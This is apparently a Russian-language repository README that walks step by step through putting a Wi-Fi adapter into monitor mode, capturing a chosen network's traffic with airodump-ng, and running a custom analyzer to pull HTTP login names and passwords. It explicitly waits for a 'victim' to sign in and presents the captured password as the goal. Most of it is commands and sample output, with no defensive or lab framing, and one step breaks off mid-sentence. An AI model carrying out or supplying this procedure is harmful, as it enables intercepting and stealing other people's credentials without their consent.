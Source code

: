 ## Перехват паролей из Wi-Fi трафика

### Требования
1. ОС основанная на Linux.
2. Wi-Fi модуль с поддержкой режима мониторинга.
3. Пакетный менеджер `apt` для установки зависимостей.
4. Все команды из инструкции выполняются от имени администратора (`root`).

### Подготовка
#### Установка необходимых програм
Если Вы используете ОС Kali Linux, то можно сразу перейти к шагу `4`. 
1. Установите пакет `wireless-tools`: 
    ```bash
    apt install wireless-tools
    ```
2. Установите пакет `aircrack-ng`:
    ```bash
    apt install aircrack-ng
    ```
3. Установите компилятор `g++` не ниже 9-ой версии:
    ```bash
    apt install g++-9
    ```
4. Скачайте скрипт для анализа дампов сети и перейдите в папку со скриптом: 
    ```bash
    git clone https://github.com/hackallcode/cap_analyzer.git
    cd cap_analyzer
    ```
5. Скомпилируем скрипт:
    ```bash
    g++-9 -std=c++17 cap_analyzer.cpp -o cap_analyzer.o
    ```
6. Создадим папку, где будем складывать дампы сети:
    ```bash
    mkdir dumps
    ```
#### Подготовка модуля
1. Для начала надо определить название интерфейса нашего Wi-Fi модуля:
    ```bash
    airmon-ng
    ```
    В результате выполнения команды будет что-то похожее на это:
    ```
    PHY	Interface	Driver		Chipset
    
    Warn ON: USB
    phy1	wlan0		mt76x0u		Ralink Technology, Corp. MT7610U
    ```
    В нашем случае интересуемое название: `wlan0`.
2. Убиваем процессы, которые нам могут помешать, если они есть:
    ```bash
    airmon-ng check kill
    ```
3. Далее необходимо включить режим наблюдения на выбранном интерфейсе:
    ```bash
    airmon-ng start wlan0
    ```
4. Проверяем, что все хорошо:
    ```bash
    iwconfig
    ```
    Результат выполнения будет похож на это:
    ```
    eth0      no wireless extensions.
    
    lo        no wireless extensions.
    
    wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=14 dBm   
        Retry short limit:7   RTS thr:off   Fragment thr:off
        Power Management:on
    ```
    Строка `Mode:Monitor` гласит о том, что адаптер в режиме мониторинга.
    Также теперь наш интерфейс называется `wlan0mon`. Запоминаем это для дальнейшего использования.
### Перехват
1. Переходим в папку для 
2. Для начала посмотрим, какие сети есть неподалеку:
    ```bash
    airodump-ng wlan0mon
    ```
    Сверху будут отображаться Wi-Fi сети, снизу Wi-Fi клиенты. 
    Выбираем сеть и канал этой сети, которые будет атаковать.
3. Начинаем собирать трафик с выбранной сети.
    ```bash
    airodump-ng wlan0mon --essid <SSID> -c <Channel> -w <filename>
    ```
    *... Ждем, пока жертва посетит HTTP сайт и введет логин и пароль ...*
    Нажимаем `ctrl + c`, когда хотим закончить сбор данных.
4. Далее запускаем скрипт для анализа трафика:
    ```bash
    ./cap_analyzer.o <filename.cap> -u <attacked_url> -- <field_name_1> <field_name_2>
    ```
    В результате получим что-то подобное:
    ```
    URI = http.hackallcode.ru
    
    Method = POST
    login = hackallcode
    password = Qwerty123!
    ```
    Вот что и требовалось получить!
